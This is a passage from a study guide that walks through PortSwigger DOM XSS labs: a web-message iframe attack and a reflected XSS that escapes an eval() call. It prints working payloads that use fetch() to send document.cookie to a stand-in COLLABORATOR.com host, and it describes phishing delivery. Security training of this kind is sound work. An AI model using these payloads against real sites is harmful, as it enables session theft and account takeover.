 ![Source code web message ads](images/source-code-web-message-ads.png)  

>The ```fetch``` function enclose the collaborator target inside **back ticks**, and when the iframe loads on the victim browser, the postMessage() method sends a web message to their home page.  

```html
<iframe src="https://TARGET.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=fetch(`https://COLLABORATOR.com?collector=`+btoa(document.cookie))>','*')">
```  

>Replacing the Burp Lab payload ```print()``` with ```fetch()``` in the above code allow attacker to steal the victim session cookie.  

![AddEventListener Ads Message](images/AddEventListener-Ads-Message.png)  

[PortSwigger Lab: DOM XSS using web messages](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages)  

### Reflected DOM XSS  

>In the **Search** function a Reflected DOM-XSS vulnerability is ***identified*** using DOM Invader as being inside an `eval()` function.  

![DOM Invader reflected dom-xss identify](images/dom-invader-reflected-dom-xss-identify.png)  

>***Identify*** that the search JavaScript `source code` on the target, the string is reflected in a JSON response called search-results.
From the Site Map, open the `searchResults.js` file and notice that the JSON response is used with an `eval()` function call.

![Reflected DOM-XSS source-code](images/reflected-dom-xss-source-code.png)  

>Testing `\"-alert(1)}//` payload we successfully escape the `eval()`. The attacker then craft an exploit phishing link to the victim with a cookie stealing payload hosted on exploit server.  
>Above payload validate that the backslash **\\** is not sanitized, and the JSON data is then send to `eval()`.  Backslash is not escaped correctly and when the JSON response attempts to escape the opening double-quotes character, it adds a **second** backslash. The resulting double-backslash causes the escaping to be effectively **cancelled out**.  

```JavaScript
\"-fetch('https://COLLABORATOR.com?reflects='+document.cookie)}//
```  

>In the above payload every character is URL encoded and used as the search parameter value. This target do not have an exploit server, so I hosted my own `python3 -m http.server 80` web service and save the `index.html` file that contain the `location` target URL between `<script>` tags. 

![Reflected DOM-XSS JSON cookie stealer](images/reflected-dom-xss-json-cookie-stealer.png)  

>In the image above, I create insecure POC cookie value in my browser before simulating a victim user clicking on `http://localhost/index.html` link, same as Burp Exploit server, that is the same as the Deliver exploit to victim function.  

[PortSwigger Lab: Reflected DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-reflected)  
